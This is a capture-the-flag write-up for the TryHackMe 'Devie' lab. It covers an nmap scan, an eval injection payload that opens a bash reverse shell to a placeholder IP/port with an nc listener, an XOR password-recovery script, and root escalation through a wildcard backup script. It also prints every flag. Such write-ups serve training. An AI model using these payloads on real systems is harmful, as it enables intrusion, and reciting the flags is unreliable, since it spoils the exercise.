 # Devie

A developer has asked you to do a vulnerability check on their system.

<p align="center">
  <img src={require("./assets/devie/devie.png").default} width="128" />
</p>

## Answers

> What is the first flag?

THM{Car3ful_witH_3v@l}

> What is the second flag?

THM{X0R_XoR_XOr_xOr}

> What is the root flag?

THM{J0k3r$\_Ar3_W1ld}

## Writeup

### Scanning

It is possible to start by scanning the machine for open ports with nmap.

There are only the 22 port for SSH and 5000.

<p align="center">
  <img src={require("./assets/devie/nmap.png").default} />
</p>

By connecting to the port 5000 with the browser we can find a web application.
The website allows to do different math calculations.

<p align="center">
  <img src={require("./assets/devie/website.png").default} />
</p>

In the footer of the page is possible to download the source code.

### First flag

By looking careful to the code we can see a vulnerability in the eval function with user input. There is no sanitation, it only checks that the values given are string.

<p align="center">
  <img src={require("./assets/devie/vuln.png").default} />
</p>

We can try to obtain a reverse shell by using a custom payload.

For example:

```py
__import__('os').system('bash -c \'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1\'')#
```

Substitute the IP and the port.
On your machine run:

```bash
nc -nvlp <PORT>
```

Once inside the machine, the first flag is in the home folder of the user: `THM{Car3ful_witH_3v@l}`

<p align="center">
  <img src={require("./assets/devie/flag1.png").default} />
</p>

### Second flag

In the home folder of the user (Bruce) we can find a note with this content:

```
Hello Bruce,

I have encoded my password using the super secure XOR format.

I made the key quite lengthy and spiced it up with some base64 at the end to make it even more secure. I'll share the decoding script for it soon. However, you can use my script located in the /opt/ directory.

For now look at this super secure string:
NEUEDTIeN1MRDg5K

Gordon
```

The encryption process is `encode_base64(cleartext ^ key) = ciphertext`

We can encrypt a simple message like a very long list of duplicated 'a'.
In this way it is possible to calculate the key.

`decode_base64(ciphertext) = ciphertext = cleartex ^ key -> cleartex ^ key ^ cleartext = key`

<p align="center">
  <img src={require("./assets/devie/key.png").default} />
</p>

It is possible to write a simple Python script to decrypt easily the password.

```py
import base64

cleartext = "00000000000000000000000000"
ciphertext = "Q0VAVUJDVVNCVURbVUlIX0JIX0JDRUBVQkM="

decoded = base64.b64decode(ciphertext)

# Find the key value
key = ""
for i, c in enumerate(decoded):
    # Remember c ^ cleartext = cleartex ^ key ^ cleartext = key`
    key += chr(c ^ ord(cleartext[i]))

ciphertext = b"NEUEDTIeN1MRDg5K"
decoded = base64.b64decode(ciphertext)

# Find the password value
password = ""
for i, c in enumerate(decoded):
    # Remember c ^ key = cleartext
    password += chr(c ^ ord(key[i]))

print(password)
```

By executing this script we can find the password `G0th@mR0ckz!`.
The second flag is inside the home folder of the user Gordon: `THM{X0R_XoR_XOr_xOr}`

<p align="center">
  <img src={require("./assets/devie/flag2.png").default} />
</p>

### Third flag

There is a custom script called `backup` in `/usr/bin` that we can execute.
It copies everything inside the reports folder of gordon to the backups folder.
This action is made as root, so we can add a symlink to the root folder and make it copy also that.

```bash
#!/bin/bash
cd /home/gordon/reports/
cp * /home/gordon/backups/
```

```
bash -p
```

The final flag is `THM{J0k3r$_Ar3_W1ld}`
